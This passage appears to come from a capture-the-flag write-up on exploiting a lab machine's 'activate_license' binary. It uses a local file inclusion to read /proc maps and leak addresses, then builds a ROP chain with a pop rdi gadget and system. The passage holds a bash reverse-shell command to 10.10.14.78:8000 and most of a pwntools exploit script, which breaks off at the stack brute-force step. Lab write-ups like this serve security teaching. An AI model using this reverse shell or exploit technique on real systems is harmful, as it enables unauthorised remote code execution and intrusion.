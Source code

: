 ```python

print('Getting base addresses...')
response = requests.get(f'http://{target_ip}/index.php?page=file:///proc/{pid}/maps')
print(response.text)
```

The script also leaked the location of the Glibc library in the system. I decided to download it to make sure I get the offset to the `system` function right. Using Radare is easy to get the offset to the `system` function: `0x000000048e50`.

Next step is to find a `pop rdi` gadget to move the `system` function first parameter to the `rdi` register, that is how the first parameter is managed in 64 bits. A gadget is just an instruction followed by the `ret` instruction, in this case Radare reported that in the offset `0x00000000181b` of the binary we have what we want.

Only one thing left, the command to execute. Normally the string `/bin/sh` located in the Glibc is used but, as said before, that trick is useless here. The string we need is something like this: `/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.78/8000 0>&1"\x00` to get a reverse shell, notice the null character at the end to mark the end of the string. In order to use that string we need to inject it in the stack as part of our payload. The problem of this approach is that, even though we know the base address of the stack, the position of the stack information vary a bit between executions so we don't really know where our argument will be.

After some time, I gave up trying to get exact the exact position of the stack injected parameter using ROP strings and I ended up using a bit of brute force. Since we know where the stack starts and ends it is possible, this is the final exploit:

```python
#! /usr/bin/env python3

from pwn import *
import requests

# Gather info

context.binary = './activate_license'
target_ip = '10.10.11.154'
url = f'http://{target_ip}/activate_license.php'

# Information from the LFI
system_got_offset = 0x000000048e50
pop_rdi_offset = 0x00000000181b
pid = 452
program_base = 0x562d2c7d5000
libc_base = 0x7f3772531000
stack_limits = [0x7ffc4cd8b000, 0x7ffc4cdac000]
stack_range = stack_limits[1] - stack_limits[0]

system_got_address = libc_base + system_got_offset
pop_rdi_address = program_base + pop_rdi_offset

print(f'Process PID ---> {pid}')
print(f'Binary base ---> {hex(program_base)}')
print(f'Libc base ---> {hex(libc_base)}')
print(f'Stack range ---> {stack_range}')

print(f'Pop rdi address ---> {hex(pop_rdi_address)}')
print(f'System address in GOT ---> {hex(system_got_address)}')


# Exploit part

command_to_execute = b'/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.78/8000 0>&1"\x00'

with log.progress('Brute forcing stack, not fancy but works...') as p:
```